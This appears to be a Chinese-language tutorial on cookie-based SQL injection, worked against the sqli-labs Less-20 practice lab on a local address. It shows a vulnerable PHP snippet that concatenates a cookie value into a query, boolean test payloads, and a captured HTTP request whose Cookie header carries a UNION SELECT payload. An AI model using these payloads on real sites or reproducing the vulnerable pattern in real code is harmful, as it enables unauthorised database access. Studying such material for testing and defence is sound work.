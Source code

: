 ## 0x00 cookie注入原理
COOKIE 注入与 GET、POST 注入区别不大，只是传递的方式不一样。GET 再 url 传递参数、POST 在 POST 正文传递参数和值，COOKIE 在 请求数据包的cookie 头传值。  
get 在 url栏传参， 即使提交的方法是 post 只要在 url 拦上都可以传递 get参数；  
post 在正文里 提交的方法必须存在 post；  
cookie 在请求数据包中，get 和 post方法均可。  

## 0x01 cookie注入代码分析
与其他注入不同的是，cookie注入是把获取的值保存到 $cookie中，然后再拼接到sql中带入查询，造成注入。
```php
$cookie = $_COOKIE['uname'];
$sql = "select * from users where username = '$cookie' limit 0,1";
```

## 0x02 黑盒环境下的cookie注入
cookie 功能多数用于商城购物车，或者用户登录验证，可以对这些功能模块进行测试，抓取 包含 cookie 的数据包进行安全测试。
payload如下：
```sql
uname=admin'+and+1%3d1--+；
uname=admin'+and+1%3d2--+；
```
查看返回页面内容是否一致，即可知道是否存在cookie注入。
使用burp suite抓取当前数据包，修改cookie即可进行注入，详细paylaod不在展示，和联合查询用的是一套。
```bash
GET /Less-20/index.php HTTP/1.1
Host: 192.168.0.101:7766
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.101:7766/Less-20/
Connection: close
Cookie: uname=-admin'union+select+1,2,user()-- ; PHPSESSID=89ja0kepcq3k1hi41elmpk8eg3
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```